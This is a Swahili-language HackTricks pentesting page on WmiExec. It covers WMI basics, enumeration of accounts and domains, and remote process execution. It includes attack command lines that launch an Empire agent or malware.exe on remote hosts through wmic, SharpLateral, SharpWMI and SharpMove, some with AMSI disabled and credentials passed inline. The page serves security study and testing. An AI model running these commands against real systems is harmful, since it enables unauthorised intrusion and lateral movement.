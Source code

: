# WmiExec

{{#include ../../banners/hacktricks-training.md}}

## Jinsi Inavyofanya Kazi

Mchakato unaweza kufunguliwa kwenye mwenyeji ambapo jina la mtumiaji na ama nenosiri au hash vinajulikana kupitia matumizi ya WMI. Amri zinafanywa kwa kutumia WMI na Wmiexec, ikitoa uzoefu wa shell wa nusu-interactive.

**dcomexec.py:** Kutumia mwisho tofauti za DCOM, skripti hii inatoa shell ya nusu-interactive inayofanana na wmiexec.py, hasa ikitumia kitu cha DCOM cha ShellBrowserWindow. Hivi sasa inasaidia MMC20. Maombi, Windows za Shell, na vitu vya Shell Browser Window. (chanzo: [Hacking Articles](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/))

## Misingi ya WMI

### Namespace

Imeandaliwa katika muundo wa hierarchi ya directory, kontena la juu la WMI ni \root, chini ya ambayo directories za ziada, zinazojulikana kama namespaces, zimepangwa. 
Amri za kuorodhesha namespaces:
```bash
# Retrieval of Root namespaces
gwmi -namespace "root" -Class "__Namespace" | Select Name

# Enumeration of all namespaces (administrator privileges may be required)
Get-WmiObject -Class "__Namespace" -Namespace "Root" -List -Recurse 2> $null | select __Namespace | sort __Namespace

# Listing of namespaces within "root\cimv2"
Get-WmiObject -Class "__Namespace" -Namespace "root\cimv2" -List -Recurse 2> $null | select __Namespace | sort __Namespace
```
Darasa ndani ya namespace linaweza kuorodheshwa kwa kutumia:
```bash
gwmwi -List -Recurse # Defaults to "root\cimv2" if no namespace specified
gwmi -Namespace "root/microsoft" -List -Recurse
```
### **Darasa**

Kujua jina la darasa la WMI, kama win32_process, na namespace iliyo ndani yake ni muhimu kwa operesheni yoyote ya WMI. Amri za kuorodhesha madarasa yanayoanza na `win32`:
```bash
Get-WmiObject -Recurse -List -class win32* | more # Defaults to "root\cimv2"
gwmi -Namespace "root/microsoft" -List -Recurse -Class "MSFT_MpComput*"
```
Kuitwa kwa darasa:
```bash
# Defaults to "root/cimv2" when namespace isn't specified
Get-WmiObject -Class win32_share
Get-WmiObject -Namespace "root/microsoft/windows/defender" -Class MSFT_MpComputerStatus
```
### Methods

Mbinu, ambazo ni kazi moja au zaidi zinazoweza kutekelezwa za madarasa ya WMI, zinaweza kutekelezwa.
```bash
# Class loading, method listing, and execution
$c = [wmiclass]"win32_share"
$c.methods
# To create a share: $c.Create("c:\share\path","name",0,$null,"My Description")
```

```bash
# Method listing and invocation
Invoke-WmiMethod -Class win32_share -Name Create -ArgumentList @($null, "Description", $null, "Name", $null, "c:\share\path",0)
```
## WMI Enumeration

### WMI Service Status

Amri za kuthibitisha ikiwa huduma ya WMI inafanya kazi:
```bash
# WMI service status check
Get-Service Winmgmt

# Via CMD
net start | findstr "Instrumentation"
```
### Taarifa za Mfumo na Mchakato

Kukusanya taarifa za mfumo na mchakato kupitia WMI:
```bash
Get-WmiObject -ClassName win32_operatingsystem | select * | more
Get-WmiObject win32_process | Select Name, Processid
```
Kwa washambuliaji, WMI ni chombo chenye nguvu cha kuorodhesha data nyeti kuhusu mifumo au maeneo.
```bash
wmic computerystem list full /format:list
wmic process list /format:list
wmic ntdomain list /format:list
wmic useraccount list /format:list
wmic group list /format:list
wmic sysaccount list /format:list
```
Kuchunguza kwa mbali WMI kwa habari maalum, kama wasimamizi wa ndani au watumiaji walioingia, kunawezekana kwa ujenzi wa amri kwa makini.

### **Kuchunguza WMI kwa Mikono kwa Mbali**

Utambuzi wa kimya wa wasimamizi wa ndani kwenye mashine ya mbali na watumiaji walioingia unaweza kufanywa kupitia maswali maalum ya WMI. `wmic` pia inasaidia kusoma kutoka kwa faili ya maandiko ili kutekeleza amri kwenye nodi nyingi kwa wakati mmoja.

Ili kutekeleza mchakato kwa mbali kupitia WMI, kama vile kupeleka wakala wa Empire, muundo wa amri ifuatayo unatumika, huku utekelezaji wa mafanikio ukionyeshwa na thamani ya kurudi "0":
```bash
wmic /node:hostname /user:user path win32_process call create "empire launcher string here"
```
Mchakato huu unaonyesha uwezo wa WMI wa utekelezaji wa mbali na uainishaji wa mfumo, ukisisitiza matumizi yake kwa usimamizi wa mfumo na pentesting.

## Zana za Kiotomatiki

- [**SharpLateral**](https://github.com/mertdas/SharpLateral):
```bash
SharpLateral redwmi HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe
```
- [**SharpWMI**](https://github.com/GhostPack/SharpWMI)
```bash
SharpWMI.exe action=exec [computername=HOST[,HOST2,...]] command=""C:\\temp\\process.exe [args]"" [amsi=disable] [result=true]
# Stealthier execution with VBS
SharpWMI.exe action=executevbs [computername=HOST[,HOST2,...]] [script-specification] [eventname=blah] [amsi=disable] [time-specs]
```
- [**https://github.com/0xthirteen/SharpMove**](https://github.com/0xthirteen/SharpMove):
```bash
SharpMove.exe action=query computername=remote.host.local query="select * from win32_process" username=domain\user password=password
SharpMove.exe action=create computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true username=domain\user password=password
SharpMove.exe action=executevbs computername=remote.host.local eventname=Debug amsi=true username=domain\\user password=password
```
- Unaweza pia kutumia **Impacket's `wmiexec`**.


## Marejeo

- [https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)


{{#include ../../banners/hacktricks-training.md}}
